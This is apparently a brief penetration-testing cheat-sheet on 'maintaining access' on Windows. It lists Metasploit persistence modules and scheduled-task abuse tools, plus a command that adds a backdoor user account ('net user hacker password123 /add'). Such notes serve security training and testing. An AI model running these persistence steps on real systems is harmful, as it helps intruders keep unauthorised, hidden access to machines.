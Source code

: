 # Maintaining Access

## Persistence Scripts
```bash
persistence -h
# opens port that doesn't need authentication -> dangerous
```
```bash
exploit/windows/local/persistence
```
```bash
exploit/windows/local/registry_persistence
```
## Scheduled tasks
```bash
schedulme
```
```bash
schtaskabuse 
```
## Add a user
```cmd
net user hacker password123 /add
# goto method
```
